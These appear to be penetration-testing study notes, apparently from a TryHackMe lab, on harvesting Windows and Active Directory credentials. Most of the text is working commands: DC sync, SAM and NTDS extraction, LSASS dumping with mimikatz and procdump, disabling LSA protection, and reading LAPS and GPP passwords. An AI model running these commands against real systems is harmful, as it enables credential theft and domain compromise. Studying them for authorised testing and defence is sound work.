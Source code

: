 # Credentials Harvesting

## Remote Windows Credentials

### DC Sync

When an account that has the following AD permissions, Replicating Directory Changes, Replicating Directory Changes All, Replicating Directory Changes in Filtered Set or administrator replicates the entire domain. **Can use MimiKatz**.

`python3.9 /opt/impacket/examples/secretsdump.py -just-dc THM.red/<AD_Admin_User>@10.10.120.81` to perform a DC sync

* the `-just-dc` argument is for extracting the NTDS data.  (`-just-dc-ntlm` to dump only NTLM hashes)
* the `thm.red/AD_Admin_User` is the authenticated domain user in the form of (domain/user).

## Local Windows Credentials

### Dumping the SAM

#### Metasploit HashDump

Gets a copy of the content of the SAM database by using in-memory code inejction the LSSAS.exe process.

`meterpreter > hashdump`

#### Volume Shadow Copy Service

A native service that helps perform volume backup while application read/write on volumes. (Note: needs administrator privileges).

1. `C:\Users\Administrator>wmic shadowcopy call create Volume='C:'` to create a copy of shaodw of `C:` Drive
2. `vssadmin list shadows` to confirm that we have a shadow copy of `C:`&#x20;
3. The SAM database is encrypted with RC4 or AES, so we need the decryption key which is stored in `c:\Windows\System32\Config\system`&#x20;
   1. `copy \?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\Administrator\Desktop\sam`&#x20;
   2. `copy \?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\users\Administrator\Desktop\system`&#x20;

#### Registry Hives

Windows Registry stored a copy of some of the SAM database contents to be used by window services.

1. Save both decryption files for the decryption key
   1. `reg save HKLM\sam C:\users\Administrator\Desktop\sam-reg`&#x20;
   2. `reg save HKLM\system C:\users\Administrator\Desktop\system-reg`&#x20;
2. `python3.9 /opt/impacket/examples/secretsdump.py -sam /tmp/sam-reg -system /tmp/system-reg LOCAL` to use Impact `secretsdump.py` to decrypt. Specified `LOCAL` to specify that this is the LOCAL SAM

### Dumping the LSASS

#### GUI

To dump any running Windows process using the GUI, open Task Manager and from the Details tab right-click on a process to "Create dump file".

#### Sysinternals Suite

Using ProcDump we can dump the lsass given that the Sysinternals Suite is installed.

`procdump.exe -accepteula -ma lsass.exe c:\Tools\Mimikatz\lsass_dump`

{% hint style="info" %}
Dumping the LSASS process is a known technique easily caught by AVs. AV bypasses need to implemented in the real world to perform such an action.
{% endhint %}

#### MimiKatz

`mimikatz.exe` to run the mimikatz binary **(Note: must be run as `SYSTEM` or local administrator).**

`privilege::debug` to enable the `SeDebugPrivilege` privilege and check the current permissions for memory access.

`sekurlsa::logonpasswords` to dump all cached passwords and hashes from the `lsass.exe`

**Protected LSASS**

Since 2012, the LSASS has been protected from being accessed to extract credentials from memory.

`!+` in mimikatz to run the `mimidrv.sys` driver that runs at the kernel to disaable the LSA protection

`!processprotect /process:lsass.exe /remove` to disable the protection.

### Windows Credential Manager

Accessible via a GUI in the Control Panel. But also via the command prompt.

`vaultcmd /list` to enumerate which windows vaults exist

`VaultCmd /listproperties:"VAULT"` to view if there are any stored credentials

`VaultCmd /listcreds:"Web Credentials"` to view more information about it

#### Dumping the WCM

Must use PowerShell Scripts such as the [`Get-WebCredentials.ps1`](https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1)&#x20;

#### RunAs

Allows users to run Windows applications under different users' permissions.&#x20;

`cmdkey /list`  as another way to enumerate the stored credentials, can use `/list:computername` as well

`runas /savecred /user:THM.red\thm-local cmd.exe` to run the cmd.exe as thm-local user

### Domain Controller

We are trying to dump the NTDS located in `C:\Windows\NTDS` . This file is encrypted so we need to dump the system Boot Key to attempt to decrypt LSA Isolated credentials, stored in the `SECURITY` filesystem.

#### Ntdsutil

Windows utility to used manage and maintain Active Directory configurations. Can be used to restore deleted objects in AD, perform maintencance in the AD, configure AD snapshot management, and set Directory Services Restore Mode (DSRM) administrator passwords.

`powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"` to locally dump the the NTDS by **having administrator access to the domain controller.**

`python3.9 /opt/impacket/examples/secretsdump.py -security path/to/SECURITY -system path/to/SYSTEM -ntds path/to/ntds.dit local` to extract the hashes after having transfered to the attacking machine

### Local Administrator Password Solution (LAPS)

#### Enumeration

1. `dir "C:\Program Files\LAPS\CSE"` to check if LAPS is installed by checking the `admpwd.dll` path
2. `Get-Command AdmPwd` to check the available commands
3. `Find-AdmPwdExtendedRights -Identity THMorg` to check which AD OU has "All extended rights" attribute (Note: can use `-Identity *` to list all available OUs)
4. `net groups "THMGroupReader"` to check group and its members (Note: check the output of the command before to enumerate the right OU)

#### Getting the Password

1. Compromise or impersonate the user that is part of the OU with the proper permissions
2. `Get-AdmPwdPassword -ComputerName creds-harvestin` to get the LAPS password on the arget machine with LAPS enabled

#### (Legacy) GPP

The GPP relevant XMLL files contains passwords encrypted using AES-256 encryption, the private key was somehow leaked so you can crack the SYSVOL with [Get-GPPPassword](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1).



## Quick Wins

#### Powershell History

`type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`&#x20;

#### Saved Windows Credentials

`cmdkey /list` lists all credentials stored in the Windows Credential Manager (Note: won't allow you to view them directly)

`runas /savecred /user:admin cmd.exe` run a cmd.exe as the user stored in the Credential Manager

`reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v keyword` to view if auto-log on is stored in the Windows registry

`reg query HKLM /f "password" /t REG_SZ /s` to search the registry for anything related to the password

#### Internet Information Services (IIS) Configuration

Is responsible for the default web server on Windows installs. Will sometimes store password for databases or configurated authentications.

```
C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
```

#### Retrieve Credentials from software

PuTTY (SSH client on windows): stores connection parameters such as IPs and SSH passwords. Only accessible with Proxy  `reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s`
